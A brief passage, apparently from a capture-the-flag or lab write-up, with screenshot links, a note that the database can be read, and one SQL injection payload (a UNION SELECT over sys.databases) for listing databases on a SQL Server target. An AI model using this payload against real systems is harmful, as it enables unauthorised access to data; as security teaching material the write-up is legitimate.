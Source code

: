 ![picture 11](/assets/images/ad10b71104ed8a06420d591b984a2cfc296c7f297086c6936bc441240903d144.png)  

Lets try to read the database

![picture 12](/assets/images/a8963fccc2bbf0c170c6870a97e80a962d4e9e7bb1a1acb6a920154251d8def0.png)  

Bingo!

### Check Databases

```
a' UNION SELECT 1,string_agg(name,' : '),3,4,5,6 FROM sys.databases --
```
